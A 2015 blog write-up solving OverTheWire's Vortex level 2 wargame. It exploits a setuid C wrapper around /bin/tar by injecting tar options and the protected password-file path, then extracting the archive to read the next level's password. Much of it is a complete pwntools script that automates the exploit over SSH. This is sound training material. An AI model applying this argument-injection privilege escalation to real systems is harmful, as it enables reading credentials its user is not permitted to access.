 ```yaml
---
layout: post
title:  "Vortex Level 2"
date:   2015-10-22 02:20
categories: vortex wargame web overthewire
author: Natri
---
```

This is a solution guide to the Vortex Level 02 at <a href="http://overthewire.org/wargames/vortex/vortex2.html">overthewire</a>. This write-up was created on 21 October 2015.

<!--break-->

The prompt hints at "create a special tar file", ok we are going to be working with tar files.  Looking at the source code below we see that <strong>/bin/tar</strong> is executed with <strong>execv</strong>.

{% highlight c linenos %}
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>

int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
}
{% endhighlight %}

Lets log into the server and take a look at the permissions <strong>vortex2</strong> runs at and the permissions of the password file.

{% highlight bash %}
vortex2@melinda:/vortex$ ls -la /vortex/vortex2
-r-sr-x--- 1 vortex3 vortex2 7295 Nov 14  2014 /vortex/vortex2
vortex2@melinda:/vortex$ ls -la /etc/vortex_pass/vortex3
-r-------- 1 vortex3 vortex3 10 Nov 14  2014 /etc/vortex_pass/vortex3
{% endhighlight %}

That is good the program runs with vortex3 permissions and the password can be opened by vortex3.

<h2>Methodology</h2>

1. Establish connection
1. Get shell PID
2. Run program to create tarball with the password inside and be able to open it with the permissions of vortex2
3. Open tarball and get password
4. Cleanup

<h2>Establish connection</h2>
Standard connection used.

{% highlight python %}
from pwn import *
import time

HOST = 'vortex.labs.overthewire.org'
USERNAME = 'vortex2'
PASS = ''

s = ssh(host=HOST, user=USERNAME, password=PASS)

location = "/vortex"
file_name = '%s/vortex2' % location
password_file = '/etc/vortex_pass/vortex3'
{% endhighlight %}

<h2>Get shell PID</h2>
<strong>NOTE:</strong>Did not need to actually get PID, through testing actually found out that <em>execv</em> does not evaluate $$ like bash does and just processes it as a normal character.  I have left this in to show flaw in thought process.

<strike>Since it is hard coded that the name of the file will be <strong>/tmp/ownership.\$\$.tar</strong>; the <em>$$</em> in the file name is the decimal process ID of the invoked shell</strike> [^1]

{% highlight python %}
shell_pid = s('echo $$')
{% endhighlight %}

<h2>Run program</h2>
The goal is to run this program that creates the tarball but make sure that when created it assigns the permissions of <em>vortex2</em> instead of the invoking permissions of <em>vortex3</em>.  To do this lets look at the [man page for tar](http://linuxcommand.org/man_pages/tar1.html).  Based on the options we should set the <strong>--mode</strong> with <em>'a+rw'</em>

{% highlight python %}
#run the program and ensure the file is written with vortex2 permissions, or atleast can be read
arg1 = "-v"
arg2 = "--mode='a+rw'"
arg3 = password_file
response = s('{0} {1} {2} {3}'.format(file_name, arg1, arg2, arg3))
log.info(response)
{% endhighlight %}

<h2>Open tarball and get password</h2>

1. Create a location to decompress the files
2. Read the files

{% highlight python %}
#create a location where we can copy the file and work on it
temp_location = "/tmp/happytimes_{0}".format(random.randint(1,10000))
response = s('mkdir {0}'.format(temp_location))
log.info(response)
response = s("cp '/tmp/ownership.$$.tar' {0}/mine.tar".format(temp_location))
log.info(response)

#decompress the file and read the contents
response = s("tar xvf {0}/mine.tar -C {0}".format(temp_location))
log.info(response)
password = s("cat {0}{1}".format(temp_location,password_file))
log.success('PASSWORD: {0}'.format(password))
{% endhighlight %}

<h2>Clean up</h2>

1. Remove files created
2. Clean up environment

{% highlight python %}
#clean up after ourselves
response = s('rm -rf %s' % temp_location)
log.info(response)
response = s("rm '/tmp/ownership.$$.tar'")
log.info(response)

#get rid of any junk from the buffer
s.clean()
{% endhighlight %}

<h2>Complete Program</h2>
{% highlight python %}
from pwn import *

HOST = 'vortex.labs.overthewire.org'
USERNAME = 'vortex2'
PASS = ''

s = ssh(host=HOST, user=USERNAME, password=PASS)

location = "/vortex"
file_name = '%s/vortex2' % location
password_file = '/etc/vortex_pass/vortex3' + chr(0)

#(testing)download source file
#s.download_file(file_name) #download the ELF

#(testing) went down wrong road here thinking that C would actually evaluate $$ as the PID of process running
#shell_pid = s('echo $$')
#log.info('PID: %s' % shell_pid)

#run the program and ensure the file is written with vortex2 permissions, or atleast can be read
arg1 = "-v"
arg2 = "--mode='a+rw'"
arg3 = password_file
response = s('{0} {1} {2} {3}'.format(file_name, arg1, arg2, arg3))
log.info(response)

#create a location where we can copy the file and work on it
temp_location = "/tmp/happytimes_{0}".format(random.randint(1,10000))
response = s('mkdir {0}'.format(temp_location))
log.info(response)
response = s("cp '/tmp/ownership.$$.tar' {0}/mine.tar".format(temp_location))
log.info(response)

#decompress the file and read the contents
response = s("tar xvf {0}/mine.tar -C {0}".format(temp_location))
log.info(response)
password = s("cat {0}{1}".format(temp_location,password_file))
log.success('PASSWORD: {0}'.format(password))

#clean up after ourselves
response = s('rm -rf %s' % temp_location)
log.info(response)
response = s("rm '/tmp/ownership.$$.tar'")
log.info(response)

#get rid of any junk from the buffer
s.clean()

{% endhighlight %}

<h2>Endnotes</h2>
[^1]: http://superuser.com/questions/247127/what-is-and-in-linux
